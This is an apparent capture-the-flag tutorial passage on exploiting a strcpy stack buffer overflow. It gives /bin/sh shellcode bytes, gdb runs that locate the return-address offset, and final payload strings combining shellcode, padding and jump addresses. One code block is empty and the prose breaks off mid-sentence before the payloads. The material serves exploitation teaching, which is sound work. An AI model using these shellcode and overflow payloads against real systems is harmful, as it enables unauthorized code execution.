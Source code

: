 ## Level 4: always check array boundaries

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is quite obvious:
`strcpy` is well-known to be unsafe,
as it does not check if the destination array has enough space to store the source array.
With a sufficiently long command line argument we can overwrite the memory area beyond `buf` in the `fun` function.

If you recall from the previous challenge,
in the OS of our live CD,
the return address is stored on the stack after local variables.
That means that by overwriting `buf`,
we can overwrite the return address,
which in turn means that we can make the program jump to anywhere we want.

In the previous challenge we overwrote the return address to jump to the insecure function `run`.
In this case, however,
we don't have such insecure function within the program,
and thus no easy place to jump to.
On the other hand,
perhaps we can bring into the program our own code using the input string,
and then write over the end of the buffer to jump to our code.

What kind of code do we want to write to the input string?
The simplest possible code that will be useful for us is something that executes `/bin/sh`, also known as *shellcode*.
How can we write such code into the input string?
We could insert the binary content of the compiled shellcode the same we inserted the return address in binary form.

Writing the shellcode itself is beyond the scope of this article.
It is thoroughly explained in the Smash The Stack article,
see in the resources.
Essentially it is a modified version of this simple C program:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
If you just compile this code and take its binary content to insert as the shellcode,
it won't work, for several reasons.
It is necessary to modify the machine language instructions,
among other things,
to eliminate null bytes from it.
This is necessary,
because `strcpy` stops copying at the first null character it sees,
which would break the shellcode.
There are many more important details to writing a suitable shellcode,
you can read more about it in the Smash The Stack article.

For our purposes,
we will take the finished shellcode from the Smash The Stack article:
```
char shellcode[] =
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";
```
Let's save it in the environment variable `EGG`:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
like in the previous challenge,
we need to find the right position in the input spring where we can overwrite the return address.
We know that the content of the stack will look like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is, the return address is somewhere soon after the end of the buffer.
We can find the right position by using `gdb`.
When we overwrite the return address with something invalid,
the program crashes with segmentation fault.
When `gdb` reaches such code,
it prints out this wrong address.
With a suitable input string and the output `gdb`,
we can find out the precise location we will want to overwrite.

Let's start the debugger:
```
```
Let's run with a crafted input string,
hopefully overwriting the return address:
```
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /storage/home/janos/dev/git/github/articles/hacking-contest-lessons/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
Good, we have successfully overwritten the return address with "A"s.
Let's try a shorter string,
and something that will help us guess the correct position better:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /storage/home/janos/dev/git/github/articles/hacking-contest-lessons/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
70, 6f, 6e, 6d, that's a decreasing sequence,
so it must be somewhere in our `abcd...xyz` sequence.
We can know exactly if we check the hexadecimal codes of our sequence:
```
$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
As `m=6d n=6e o=6f p=70`,
the return address is in the position of the letters `mnop`.
Since there are 12 letters before "m",
we can calculate that we need an input string of length 1024 + 12 + 4,
where the last 4 bytes will be the address we want to jump to.
Let's verify this final number with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "mmmm"')
Starting program: /storage/home/janos/dev/git/github/articles/hacking-contest-lessons/level04 $(python -c 'print "A" * 1036 + "mmmm"')

Program received signal SIGSEGV, Segmentation fault.
0x6d6d6d6d in ?? ()
```
Ok that's really the one.
What next?
Our string should start with the shellcode,
followed by some padding until 1036 bytes,
and finally the address to jump to.
We can confirm the size of our shellcode using `wc -c`:
```
$ printf $EGG | wc -c
45
```
45 characters,
that means we will need 1036 - 45 = 991 padding characters.
But what about the address?
We want to jump to the address of `buf`,
but how can we know that?
Unfortunately, we cannot.
In the past,

```
$EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
$EGG$(python -c 'print "A" * 991')$(printf '\xfb\x85\x04\x08')
```
